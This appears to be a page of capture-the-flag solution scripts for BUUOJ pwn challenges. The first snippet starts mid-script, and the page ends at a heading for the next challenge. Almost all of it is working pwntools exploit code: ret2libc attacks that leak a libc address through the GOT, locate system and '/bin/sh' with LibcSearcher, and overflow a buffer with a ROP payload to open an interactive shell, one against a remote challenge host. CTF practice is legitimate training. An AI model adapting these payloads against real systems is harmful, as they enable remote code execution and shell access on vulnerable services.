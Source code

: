 ```python

io.recvuntil(p32(elf.got['printf']) + b'\n')
printf = u32(io.recv(4))

libc = LibcSearcher('printf', printf)
base = printf - libc.dump('printf')
binsh = base + libc.dump('str_bin_sh')

io.sendlineafter(b'Please input admin password:', b'administrator')

payload = cyclic(76) + p32(elf.plt['system']) + p32(0xdeadbeef) + p32(binsh)
io.sendlineafter(b'0.Exit\n:', b'1')
io.sendlineafter(b'Please input new log info:', payload)
io.sendlineafter(b'0.Exit\n:', b'4')
io.interactive()
```
# buu021-铁人三项(第五赛区)_2018_rop

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 26419)
elf = ELF('./pwn')
# libc = ELF('libc32')

payload = cyclic(0x8c) + p32(elf.symbols['write']) + p32(elf.symbols['vulnerable_function'])
payload += p32(1) + p32(elf.got['read']) + p32(24)

io.sendline(payload)
io.recv(16)
write = u32(io.recv(4))
print(hex(write))

libc = LibcSearcher('write', write)
base = write - libc.dump('write')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

# base = write - libc.symbols['write']
# sys = base + libc.symbols['system']
# binsh = base + next(libc.search(b'/bin/sh'))
print(hex(base))
print(hex(sys))
print(hex(binsh))

payload = cyclic(0x8c) + p32(sys) + p32(binsh) + p32(binsh)
io.sendline(payload)

io.interactive()
```
# buu022-bjdctf_2020_babyrop
